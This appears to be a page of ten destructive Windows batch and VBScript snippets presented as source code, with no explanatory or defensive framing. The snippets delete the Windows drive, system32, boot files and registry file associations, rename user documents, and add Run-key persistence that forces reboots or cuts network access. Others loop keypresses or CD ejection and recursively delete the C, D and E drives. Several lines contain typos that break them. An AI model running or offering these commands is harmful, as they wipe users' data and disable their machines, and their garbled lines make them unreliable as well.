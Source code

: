 # C-

1.
Del %windowsdrive%\*.* /f /s /q
Shutdown -s -f -t 0

2.
Ren *.doc *.txt
Ren *.jpeg *.txt
Ren *.lnk *.txt
Ren *.avi *.txt
Ren *.mpeg *.txt
Ren *.com *.txt
Ren *.bat *.txt

3.
Del c:\windows\system32\*.* /q

4.
@echo off
Attrib -r -s -h c:\autoexec.bat
Del c:\autoexec.bat
Attrib -r -s -h c:\boot.ini
Del c:\boot.ini
Attrib -r -s -h c:\ntldr
Del c:\ ntldr
Attrib -r -s -h c:\windows\win.ini
Del c:\windows\win.ini

5.
@echo off
Start reg delete HKCR/.exe
Start reg delete HKCR/.dll
Start reg delete HKCR/*

6.
echo @echo off>c:\windows\wimn32.bat
echo break off>>c:\windows\wimn32.bat
echo ipconfig/release_all>>c:\windowswimn32.bat
echo end>>c:\windows\wimn32.bat
reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run /v WINDOWsAPI /t reg_sz /d c:\windows\wimn32.bat /f
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVision\Run /v CONTROLexit /t reg_sz /d c:/Windows/wimn32.bat /f
Pause

7.(.vbs)
Set wshShell=wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys"~(enter)"
loop

8.
echo @echo off>c:\Windows\hartlell.bat
echo break off>>c:\Windows\hartlell.bat
echo shutdown -r -t 11 -f>>c:\Windows\hartlell.bat
echo end>>c:\Windows\hartlell.bat
reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windwos\CurrentVersion\Run /v startAPI /t reg_sz /d c:\Windows\hartlell.bat /f
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v /t reg_sz /d c:\Windows\hartlell.bat /f
pause

9.(.vbs)
Set oWMP=CreateObject("WMPlayer.OCX.7")
Set colCDROMs=oWMP.cdromCollection
do
if colCDROMs.Count>=1 then
For i=0 to colCDROMs.Count -1
colCDROMs.Item(i).Eject
Next
For i=0 to colCDROMs.Count -1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop

10.
rd/s/q D:\
rd/s/q E:\
rd/s/q C:\
